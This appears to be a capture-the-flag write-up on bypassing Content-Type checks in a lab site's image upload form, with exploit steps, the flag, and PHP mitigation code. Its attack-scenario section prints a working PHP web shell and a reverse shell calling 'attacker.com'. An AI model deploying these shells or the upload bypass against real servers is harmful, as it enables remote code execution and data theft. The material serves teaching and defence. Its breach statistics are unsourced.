



# Breach #8: Unrestricted File Upload

## Vulnerability Type
**Unrestricted File Upload - Insufficient File Type Validation**
- OWASP: A03:2021 - Injection
- CWE-434: Unrestricted Upload of File with Dangerous Type

## How We Found It

### Discovery: File Upload Functionality
**URL**: `http://192.168.64.2/?page=upload`

The website has an image upload feature accessible from the homepage.



### Step 1: Analyzing the Upload Form

**HTML Structure**:
```html
<form enctype="multipart/form-data" action="#" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
    Choose an image to upload:
    <input name="uploaded" type="file" />
    <input type="submit" name="Upload" value="Upload">
</form>
```

**Key Observations**:
- No `accept` attribute on file input
- Client-side validation likely through JavaScript
- Max file size: 100KB

### Step 2: Testing File Upload Restrictions

**Test 1** - Direct PHP file upload:
- Created `hack.php` file
- Attempted upload through browser
- **Result**: "Your image was not uploaded" ❌

**Why it failed**: Client-side JavaScript validation blocks non-image files.

### Step 3: Bypassing Client-Side Validation

**Method**: Use browser Console to submit request with manipulated Content-Type header.

**Exploit Code**:
```javascript
const formData = new FormData();
const file = new File(["just a test"], "hack.php", { type: "image/jpeg" });
formData.append('uploaded', file);
formData.append('Upload', 'Upload');

fetch('?page=upload', {
    method: 'POST',
    body: formData
}).then(r => r.text()).then(html => {
    document.body.innerHTML = html;
});
```



**Key Technique**:
- Create File object with `type: "image/jpeg"`
- Server only validates Content-Type header
- Doesn't check actual file content or extension

**Result**: ✅ **FLAG OBTAINED!**



**Flag**: `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

**Server Response**: `/tmp/hack.php successfully uploaded.`

## How to Exploit

### Method 1: Browser Console (Demonstrated)

1. Navigate to upload page: `http://192.168.64.2/?page=upload`
2. Open DevTools (F12)
3. Go to Console tab
4. Type `allow pasting` and press Enter (to bypass paste warning)
5. Paste and execute the exploit code above
6. Flag appears on page

### Method 2: curl with Content-Type Override

```bash
curl -X POST "http://192.168.64.2/index.php?page=upload" \
  -F "uploaded=@hack.php;type=image/jpeg" \
  -F "Upload=Upload"
```

**Key Parameter**: `;type=image/jpeg` overrides the default Content-Type.

### Method 3: Burp Suite / Proxy Intercept

1. Attempt to upload any file
2. Intercept request in Burp Suite
3. Modify `Content-Type` header from `application/x-php` to `image/jpeg`
4. Forward request
5. Receive flag in response

## Security Issues

### 1. Client-Side Validation Only

**Problem**: File type validation happens only in browser JavaScript.

**Vulnerable Pattern**:
```javascript
// Client-side only (easily bypassed)
if (!file.type.startsWith('image/')) {
    alert('Only images allowed!');
    return false;
}
```

**Why it fails**:
- ❌ Can be bypassed with DevTools
- ❌ curl/Burp Suite ignore client-side code
- ❌ No server-side verification

### 2. Content-Type Header Trust

**Problem**: Server trusts the `Content-Type` header without verification.

**Vulnerable Code** (hypothetical):
```php
$contentType = $_FILES['uploaded']['type'];

// Only checks Content-Type header
if (!str_starts_with($contentType, 'image/')) {
    die("Only images allowed");
}

// Uploads file without content validation
move_uploaded_file($_FILES['uploaded']['tmp_name'], '/uploads/' . $_FILES['uploaded']['name']);
```

**Why it fails**:
- Attacker controls Content-Type header
- Server doesn't verify actual file content
- Extension not validated

### 3. No File Extension Validation

**Problem**: Server accepts dangerous file extensions (.php, .jsp, .asp, etc.)

**Dangerous Extensions**:
```
.php, .php3, .php4, .php5, .phtml    → PHP execution
.jsp, .jspx                          → Java Server Pages
.asp, .aspx                          → ASP.NET
.sh, .bash                           → Shell scripts
.py                                  → Python scripts
```

### 4. No File Content Verification

**Problem**: Server doesn't check if file is actually an image.

**What's missing**:
- Magic byte verification (file signature)
- Image library validation (GD, ImageMagick)
- EXIF data parsing
- File reprocessing

### 5. Predictable Upload Location

**Problem**: File uploaded to `/tmp/hack.php` (predictable path).

**Security implications**:
- If `/tmp` is web-accessible, attacker can execute PHP
- Predictable filenames enable further exploitation

## Real-World Attack Scenarios

### Scenario 1: Web Shell Upload

**Attacker uploads**:
```php
<?php
// Simple web shell
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**Attack Flow**:
1. Upload shell.php with Content-Type: image/jpeg
2. Access: `http://site.com/uploads/shell.php?cmd=ls`
3. Execute arbitrary commands on server
4. Full server compromise

### Scenario 2: Reverse Shell

```php
<?php
$sock = fsockopen("attacker.com", 4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

**Impact**: Remote command execution, data exfiltration.

### Scenario 3: Malware Distribution

Upload malware disguised as images for distribution to other users.

## Mitigation

### 1. Server-Side Validation (Essential)

```php
// Whitelist approach
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
$allowed_mime_types = ['image/jpeg', 'image/png', 'image/gif'];

$file_ext = strtolower(pathinfo($_FILES['uploaded']['name'], PATHINFO_EXTENSION));
$file_type = $_FILES['uploaded']['type'];

// Validate extension
if (!in_array($file_ext, $allowed_extensions)) {
    die("Invalid file extension");
}

// Validate MIME type (but don't trust it alone)
if (!in_array($file_type, $allowed_mime_types)) {
    die("Invalid file type");
}
```

### 2. Verify File Content with Magic Bytes

```php
function validateImageFile($file_path) {
    // Read first few bytes
    $handle = fopen($file_path, 'rb');
    $magic = fread($handle, 12);
    fclose($handle);

    // Check magic bytes
    $jpeg = "\xFF\xD8\xFF";
    $png = "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A";
    $gif = "GIF89a";

    if (str_starts_with($magic, $jpeg) ||
        str_starts_with($magic, $png) ||
        str_starts_with($magic, $gif)) {
        return true;
    }
    return false;
}
```

### 3. Use Image Processing Library

```php
// Verify and reprocess image
$image_info = getimagesize($_FILES['uploaded']['tmp_name']);

if ($image_info === false) {
    die("Not a valid image");
}

// Reprocess image (removes embedded code)
$image = imagecreatefromjpeg($_FILES['uploaded']['tmp_name']);
imagejpeg($image, '/safe/path/' . $safe_filename, 90);
imagedestroy($image);
```

### 4. Sanitize Filenames

```php
function sanitizeFilename($filename) {
    // Remove path traversal attempts
    $filename = basename($filename);

    // Remove dangerous characters
    $filename = preg_replace('/[^a-zA-Z0-9._-]/', '', $filename);

    // Add random prefix
    $filename = uniqid() . '_' . $filename;

    return $filename;
}
```

### 5. Store Outside Web Root

```php
// ❌ Bad: Inside web root
$upload_dir = $_SERVER['DOCUMENT_ROOT'] . '/uploads/';

// ✅ Good: Outside web root
$upload_dir = '/var/uploads/';

// Serve through script with access control
// download.php?file=uuid
```

### 6. Set Proper File Permissions

```php
// Upload file
move_uploaded_file($tmp, $destination);

// Remove execute permissions
chmod($destination, 0644); // rw-r--r--
```

### 7. Implement File Type Checks

```php
// Multiple validation layers
function validateUpload($file) {
    // 1. Extension check
    if (!in_array($ext, $allowed_exts)) return false;

    // 2. MIME type check
    if (!in_array($mime, $allowed_mimes)) return false;

    // 3. Magic bytes check
    if (!verifyMagicBytes($file)) return false;

    // 4. Image library validation
    if (!getimagesize($file)) return false;

    // 5. File size check
    if (filesize($file) > MAX_SIZE) return false;

    return true;
}
```

## Impact Assessment

### CVSS 3.1 Score: 9.8 (Critical)

**Attack Vector**: Network (AV:N)
**Attack Complexity**: Low (AC:L)
**Privileges Required**: None (PR:N)
**User Interaction**: None (UI:N)
**Scope**: Unchanged (S:U)
**Confidentiality**: High (C:H)
**Integrity**: High (I:H)
**Availability**: High (A:H)

### Real-World Impact

**Successful file upload exploitation enables**:
- Remote Code Execution (RCE)
- Full server compromise
- Data exfiltration
- Malware distribution
- Defacement
- Backdoor installation
- Lateral movement

**Statistics**:
- File upload vulnerabilities in **35%** of web applications
- Average time to detect: 210 days
- Average cost of RCE breach: $4.5M

## References

- [OWASP File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
- [File Upload Security](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)

## Tools Used

- **Browser DevTools**: Console for exploit execution
- **curl**: Command-line file upload with Content-Type override

---
**Flag**: `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`
